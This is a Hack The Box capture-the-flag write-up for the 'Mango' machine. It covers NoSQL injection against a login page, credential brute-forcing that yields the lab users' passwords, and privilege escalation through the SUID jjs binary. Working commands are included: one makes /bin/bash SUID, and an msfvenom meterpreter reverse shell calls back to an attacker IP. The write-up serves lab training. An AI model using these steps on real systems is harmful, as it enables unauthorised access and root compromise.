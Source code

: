 ```yaml
---
layout: single
title: "Mango write-up"
date: 2020-04-17 00:22:00 -0000
classes: wide
header:
  teaser: /asset/htbwriteup/linux/mango/intro.png
  teaser_home_page: true
  icon: /assets/hackthebox.webp
categories: hackthebox
permalink: /htb/htbMango
tags: [mongodb, jjs, PrependSetuid, jjs bash SUID]

---
```


# HTB - Mango

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/intro.png "mango intro")
## Recon
    $ nmap -Pn -sCV -p22,80,443 -oN nmap/Basic_10.10.10.162.nmap 10.10.10.162 
    
![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/1.png)

- From the nmap scan, there are 3 services, OpenSSH 7.6p1 and http Apache 2.4.29 on port 80 and also https Apache titled Mango | Search Base on port 443.

- As usual, we added 10.10.10.162 `staging-order.mango.htb` to our `/etc/hosts` file. It is a subdomain under `mango.htb`. We started to browse to port 443 which is a login page and we got a hint that it is likely `MongoDB` by guessing the box's name `Mango` XD.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/login.png)

- After googling, i found MongoDB injection from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection). After testing with BurpSuite, we can confirm that the login page is vulnerable to NoSQL injection as we get redirected to `home.php` after we bypassed the authentication page.

- There is a python script to bruteforce the login page that we found from [here](https://book.hacktricks.xyz/pentesting-web/nosql-injection#brute-force-login-usernames-and-passwords-from-post-login).

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/4.png)

- To use the script, we just need to modify the `url, Host and PHPSESSID` as below.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/5.png)

## Exploit
- run the script and we got 2 credentials for `admin` and `mango` users.
-		$ python brute.py
-	    [*] Found admin:t9KcS3>!0B#2 
		[*] Found mango:h3mXK8RhU~f{]f5H

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/6.png)

- Without a doubt, we managed to SSH into mango user. We try to login to admin user through SSH but it failed earlier.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/8.png)

### From mango to admin shell:
- We list all the users on the machine and got 2 users that have login shell which are admin and mango.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/9.png)

- mango user can't view the user.txt flag. However, we can `su` into admin and got the flag.
 
![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/10.png)

## Privilege escalation

### Reads or disclose files outside a restricted file system: 
- As usual, we will use [`LinEnum`](https://github.com/rebootuser/LinEnum) to enumerate for ways to escalate to `root`.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/11.png)

- LinEnum gave us interesting SGID file that is jjs. `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs`

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/12.png)

- By referring to [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/), it may be used to do privileged reads or disclose files outside a restricted file system. So, we can read root's files using this method.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/13.png)

- So, we need to point the file that need to be read and we got the `root.txt` flag. 

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/14.png)

### Get a root shell by making bash SUID using jjs:
- `exec('chmod u+s /bin/bash')`, where we get `euid as (root)`
- 

    admin@mango:/home/admin$ jjs
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
    0
    jjs> 
    admin@mango:/home/admin$ /bin/bash -p
    bash-4.4# id
    uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)

### Meterpreter shell with the `PrependSetuid` option to root shell:

-  Generate elf meterpreter and transfer our elf to victim machine.

		fesal@de7fx:~$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 PrependSetuid=true -f elf -o rev

- On victim machine.


		admin@mango:/tmp$ chmod +x rev
		admin@mango:/tmp$ /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
		Warning: The jjs tool is planned to be removed from a future JDK release
		jjs> Java.type('java.lang.Runtime').getRuntime().exec('/tmp/rev').waitFor()

- On kali machine.

		Meterpreter session 1 opened (10.10.14.40:4444 -> 10.10.10.162:37425) at 2020-03-09 21:53:16 

		msf5 exploit(multi/handler) > sessions 1
		[*] Starting interaction with 1...

		meterpreter > getuid
		Server username: uid=0, gid=1001, euid=0, egid=1001
		meterpreter > shell
		Process 5656 created.
		Channel 1 created.
		id
		uid0(root) gid=1001(admin) groups=1001(admin)

That's great, now we are in root shell ---- :)
